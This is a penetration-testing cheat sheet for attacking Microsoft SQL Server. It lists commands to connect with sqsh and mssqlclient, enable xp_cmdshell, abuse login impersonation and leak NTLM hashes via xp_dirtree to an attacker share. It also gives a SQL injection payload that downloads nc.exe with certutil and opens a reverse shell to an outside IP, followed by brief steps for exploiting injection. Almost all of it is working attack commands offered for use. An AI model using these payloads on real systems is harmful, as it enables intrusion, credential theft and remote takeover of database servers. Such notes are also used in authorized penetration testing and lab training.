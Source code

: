 ## Connect to Database
### `sqsh`
```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```
### `mssqlclient`
```
mssqlclient.py -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
```
## Commands
```
SELECT is_srvrolemember('sysadmin');
SELECT DB_NAME()
xp_cmdshell "powershell -c pwd"
```
`xp_cmdshell` Configuration
```
impacket-mssqlclient Administrator:Lab123@192.168.228.18 -windows-auth
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE; 
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```
## Impersonation
```
SQL (HAERO\discovery  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee          grantor          
----------   --------   ---------------   ----------   --------------   --------------   
b'LOGIN'     b''        IMPERSONATE       GRANT        HAERO\services   hrappdb-reader

SQL (HAERO\discovery  guest@master)> exec_as_login hrappdb-reader
SQL (hrappdb-reader  guest@master)> 
```

## NTLM Hash disclosure
- [x] Enabled `xp_dirtree`
```
exec xp_dirtree '\\<IP>\<SHARE>\',1,1
xp_dirtree \\<ATTACKER IP>\<SHARE>
```

## Payload Injection
```
'; EXEC sp_configure 'show advanced options',1 
RECONFIGURE

EXEC sp_configure 'xp_cmdshell',1 
RECONFIGURE

DECLARE @cmd1 varchar(600)
DECLARE @cmd2 varchar(600)

SET @cmd1 = 'certutil -urlcache -f http://192.168.45.224/nc.exe c:/windows/temp/nc.exe'
EXEC xp_cmdshell @cmd1

SET @cmd2 = ''EXEC xp_cmdshell "C:/windows/temp/nc.exe 192.168.45.224 443 -e cmd.exe"
EXEC xp_cmdshell @cmd2
;--
```
1) Test the username or password fields by adding a single quote('). If there's an error or strange behavior, it might indicate SQL injection. 
2) Use time-based payloads to identify the database system. 
3) Once the DB system is known, look for specific vulnerabilities to gain further access. 
4) For MSSQL, check and enable xp_cmdshell if necessary including advanced options.
